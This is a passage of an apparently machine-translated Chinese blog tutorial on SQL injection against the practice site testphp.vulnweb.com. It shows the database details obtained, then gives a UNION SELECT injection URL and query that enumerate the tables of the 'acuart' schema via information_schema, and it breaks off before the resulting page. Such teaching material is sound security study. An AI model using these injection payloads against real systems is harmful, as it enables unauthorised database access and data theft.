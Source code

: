 **我得到以下信息:**

*   **数据库— `acuart`**
*   **用户— `acuart@localhost`**
*   **版本— `8.0.22–0ubuntu0.20.04.2`**

> **如果你喜欢我的博客，你可以点击下面的按钮或者点击下面的链接[给我买杯咖啡](https://www.buymeacoffee.com/gouravdhar):https://www.buymeacoffee.com/gouravdhar**

**![](img/924067b2e4dbba5954b13fe465e1ee05.png)**

# **3.发现当前数据库中的表和表数据**

**一旦收集了以上信息，一切都会变得非常简单。要获得表的列表，我只需运行**

**[http://testphp.vulnweb.com/listproducts.php?cat = 1% 20 union % 20 select % 20 all % 201，table_name，3，4，5，6，7，8，9，10，11% 20 from % 20 information _ schema . tables % 20 where % 20 table _ schema % 20 = % 27 acuart % 27](http://testphp.vulnweb.com/listproducts.php?cat=1%20union%20select%20all%201,table_name,3,4,5,6,7,8,9,10,11%20from%20information_schema.tables%20where%20table_schema%20=%27acuart%27)**

**相应的 SQL 查询:**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 union select all 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema = 'acuart'
```

**`**information_schema**`是包含表列表的默认数据库。我们使用这些信息来找出表名。`acuart`是我们在上一步中得到的数据库名称。**

**网页看起来会像这样:**
